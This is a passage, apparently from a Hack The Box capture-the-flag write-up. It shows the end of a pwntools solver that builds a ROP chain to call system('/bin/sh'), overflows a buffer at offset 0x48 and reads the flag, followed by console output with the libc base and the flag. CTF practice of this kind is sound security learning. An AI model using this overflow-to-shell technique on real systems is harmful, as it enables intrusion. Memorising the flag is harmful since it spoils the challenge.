 ```python
rop.call(rop.ret[0])
rop.system(next(libc.search(b'/bin/sh\x00')))
r.sendline(flat({0x48: rop.chain()}))

# Get flag
pause(1)
r.sendline('cat flag*')
print(f'\nFlag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0:1337

Libc base: 0x7f631a001000

Flag --> HTB{c0nf1gur3_w3r_d0g}
```
